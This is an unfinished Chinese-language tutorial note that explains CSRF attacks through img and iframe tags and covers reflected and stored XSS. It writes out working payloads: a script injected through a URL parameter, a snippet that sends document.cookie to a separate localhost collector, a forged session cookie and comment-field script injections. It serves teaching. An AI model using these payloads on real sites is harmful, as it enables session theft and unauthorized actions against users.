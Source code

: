### 攻击xss,csrf
#### 1. csrf攻击
在其他域名下访问被攻击者之前访问域名下的接口，通过img标签的形式，向同一个服务器发送请求，从而形成攻击。    
例如：A用户访问B（域名：http://www.b.com） 网站，登录成功以后cookie信息已经获取到，B网站发送了一个请求 http://www.b.com/list/delete?id=“11” 这样会删除了id为11的信息。如果攻击者此时利用C页面(http:www.c.com)放了一个img标签，且src=‘http://www.b.com/list/delete?id=“12”’ 这样就会向后端发起删除id为12的信息，起到攻击的作用。 因为C页面的src的链接是b页面的，同一个浏览器下面，不同的窗口，向同一个域发起的请求是共享cookie的，所以此时就像是在b网站发起请求一样，也是携带cookie，服务端认为是合法的，从而把id=12的记录给删除了，起到了攻击的作用。    
或者是在c页面放置一个iframe，iframe的链接是删除链接，此时也是可以起到攻击的作用，而且iframe的这种攻击是用浏览器的请求头里的refer字段无法识别的，因为此时的refer的地址就是iframe的地址，即b页面的地址，所以此时使用refer无效。使用img标签的时候应该是可以使用refer来判断访问的网站的。    

#### 2. xss攻击（跨站脚本攻击），利用注入脚本攻击

##### （1）反射型 - url参数直接注入
①：普通：http://localhost:3000/?from=china      
②：alert尝试：http://localhost:3000/?from=<script>alert(3)</script>    
③：获取Cookie：http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>    
伪造cookie入侵： document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="    
直接在4000端口的页面输入脚本：var img = new Image(); img.src='http://localhost:4000/img?c='+document.cookie 就能获取cookie    

##### （2）存储型 - 存储到DB后读取时注入（在输入框，例如评论区输入内容）
评论：<script>alert(1)</script>     
跨站脚本注入：我来了<script src="http://localhost:4000/hack.js"></script>

这种防范可以利用http请求头里面refer字段

未完。
